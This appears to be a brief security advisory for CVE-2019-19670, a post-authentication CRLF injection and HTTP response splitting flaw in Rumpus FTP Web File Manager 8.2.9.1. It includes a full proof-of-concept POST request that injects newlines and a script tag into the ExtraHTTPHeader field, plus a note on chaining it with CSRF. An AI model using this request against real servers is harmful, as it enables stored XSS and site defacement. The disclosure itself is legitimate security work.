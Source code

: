 # CVE-2019-19670

#Title: HTTP Response Splitting/CRLF Injection 
#Vendor: MAXUM Development (https://maxum.com)
#Affected Product: Rumpus FTP Web File Manager
#Tested On: Rumpus FTP Version 8.2.9.1 for Windows


#Description: A Post Authenticated HTTP Response Splitting vulnerability was identified in the Web Settings
Component of Web File Manager in Rumpus FTP Server 8.2.9.1


#Vulnerable Request:

POST /RAPR/WebSettingsGeneralSet.html HTTP/1.1
Host: 127.0.0.1
Cookie: UserAccount=xxxxxxx; SessionID=xx
Content-Type: application/x-www-form-urlencoded
Content-Length: xx

ExtraHTTPHeader=CRLF:test%0A%0A<script>alert(0)</script>

#Impact: To exploit this vulnerability an attacker can chain this with CSRF (CVE-2019-19664).
A successful exploit will result in stored XSS, website defacement etc.
